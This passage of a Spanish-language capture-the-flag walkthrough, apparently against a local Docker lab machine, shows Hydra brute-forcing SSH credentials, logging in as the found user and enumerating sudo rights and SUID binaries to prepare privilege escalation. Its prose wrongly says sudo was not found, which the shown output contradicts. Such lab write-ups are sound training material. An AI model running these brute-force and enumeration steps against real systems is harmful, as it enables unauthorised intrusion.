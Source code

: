 ```ruby
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-11 23:23:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-11 23:23:54
```
* Con -L seleccionamos el archivo que hemos creado.
* Con -P indicamos un conjunto de contraseñas a probar, en este caso, las recogidas en el diccionario.
* Por último indicamos el servicio y la dirección sobre la que ejecutar el ataque.

Vemos que este ataque ha sido satisfactorio y hemos encontrado una contraseña válida para el usuario *camilo*.
Ahora que ya tenemos usuario y contraseña accederemos al servicio SSH para comenzar con el escalado de privilegios.
```ruby
❯ ssh camilo@172.17.0.2
camilo@172.17.0.2's password: 
$ whoami
camilo
```

Para continuar, vamos a intentar listar todos los privilegios de *sudo* del usuario actual. Es decir, mostrar qué comandos puede ejecutar con sudo y cómo.
```ruby
$ sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on 8ff01ee76a19.
```
Vemos que nos ha devuelto que el comando *sudo* no se ha encontrado así que no listaremos permisos de sudoers.  Esto puede ser por:
* El sistema está minimalista (por ejemplo, contenedores, sistemas de pruebas, o ciertos servidores SSH).
* Tu usuario no tiene permisos para sudo, o sudo no está instalado.

La siguiente opción es buscar permisos SUID.  El SUID (Set User ID) es un bit especial de permisos en sistemas tipo Unix/Linux que se aplica a archivos ejecutables. Su función principal es permitir que un programa se ejecute con los permisos del propietario del archivo, en lugar de los permisos del usuario que lo ejecuta. Esto puede ser útil para ciertas tareas que requieren privilegios elevados, sin dar acceso completo al usuario.  Para ello ejecutaremos: 

```ruby
$ find / -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/sudo
/bin/su
/bin/umount
/bin/mount
```
